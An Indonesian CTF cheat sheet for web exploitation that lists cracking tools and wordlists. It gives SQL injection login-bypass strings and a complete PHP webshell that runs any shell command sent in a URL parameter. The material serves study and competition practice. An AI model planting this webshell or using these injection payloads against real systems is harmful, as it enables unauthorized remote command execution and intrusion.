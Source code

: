 ```yaml
---
title: Semua Tentang CTF - Kategori Web Exploitation
published: true
---
```

# Tools dan File yang Umum Digunakan
Kategori Web Exploitation:
1. [JWT (JSON Web Token) - Cookie dengan JAuth](https://token.dev/){:target="_blank"}
2. [Deobfuscate - Kode JS yang Sulit Dibaca](https://deobfuscate.io/){:target="_blank"}
3. [John The Ripper - Brutefore JWT Signature Key](https://github.com/openwall/john-packages){:target="_blank"}
4. [Rockyou Wordlist - Kumpulan Kata untuk Bruteforce CTF](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt){:target="_blank"}

# Kode Penting
SQL Injection
```sql
' OR 1=1--
```

Modified SQL Injection (by me)
```sql
' OR 1=1 OR '1'='1
```
PHP Webshell (Execute Linux Command) dari [joswr1ght](gist.github.com/joswr1ght).

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

# Catatan Tambahan Untuk Belajar
## Comment Pada SQL
```sql
SELECT * FROM Customers -- WHERE City='Berlin';
```
```sql
/*Select all the columns
of all the records
in the Customers table:*/
SELECT * FROM Customers;
```
```sql
SELECT CustomerName, /*City,*/ Country FROM Customers;
```
## Username yang Umum Digunakan
```admin``` paling umum digunakan.